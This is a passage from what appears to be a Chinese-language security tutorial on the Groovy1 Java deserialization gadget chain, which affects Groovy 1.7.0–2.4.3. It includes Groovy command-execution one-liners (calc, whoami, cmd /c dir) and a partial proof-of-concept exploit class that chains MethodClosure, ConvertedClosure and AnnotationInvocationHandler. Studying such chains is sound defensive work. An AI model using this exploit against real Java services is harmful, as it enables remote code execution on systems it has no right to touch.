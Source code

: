 ```java
"${'calc'.execute()}"

// 回显型命令执行
println "cmd /c dir".execute().text
println 'whoami'.execute().text
println "${"whoami".execute().text}"
println "${'whoami'.execute().text}"
def cmd = "whoami";
println "${cmd.execute().text}";
```

实际上就是调用`Runtime.getRuntime().exec()`方法执行系统命令
![](https://img-blog.csdnimg.cn/183981fe1209460585d4963726483aed.png)
在 Java 中，就可以直接写做：
```java
MethodClosure methodClosure = new MethodClosure("calc", "execute");
methodClosure.call();
```
![](https://img-blog.csdnimg.cn/631dd330cba7439cb1e2889601c6c8c8.png)
#### ConvertedClosure
`org.codehaus.groovy.runtime.ConvertedClosure`是一个通用适配器，用于将闭包适配到 Java 接口
ConvertedClosure 实现了 ConversionHandler 类，而 ConversionHandler 又实现了 InvocationHandler，所以说 ConvertedClosure 本身就是一个动态代理类

如果初始化时指定的 method 与`invokeCustom`指定的 method 参数相同，则`invokeCustom`方法将会调用代理对象 Closure 的 call 方法执行传入参数执行
![](https://img-blog.csdnimg.cn/30ef93b65d914f73a0435b45dfc05066.png)
### 攻击构造
>依赖版本
Groovy : 1.7.0-2.4.3

AnnotationInvocationHandler 反序列化时调用 memberValues 中存放对象的 entrySet 对象，这个对象是 ConvertedClosure，而这个对象又实际上是 MethodClosure 对象的代理，定义了在调用 entrySet 方法时会调用 invoke 方法去调用 MethodClosure 的 call 方法，触发 Groovy 中 String 类型的 execute 方法执行命令
```java
package Groovy;

import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Map;

public class Groovy1 {
    public static void main(String[] args) throws Exception{
        //封装我们需要执行的对象
        MethodClosure methodClosure = new MethodClosure("calc", "execute");
        ConvertedClosure closure = new ConvertedClosure(methodClosure, "entrySet");

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        // 创建 ConvertedClosure 的动态代理类实例
        Map handler = (Map) Proxy.newProxyInstance(ConvertedClosure.class.getClassLoader(), new Class[]{Map.class}, closure);
```
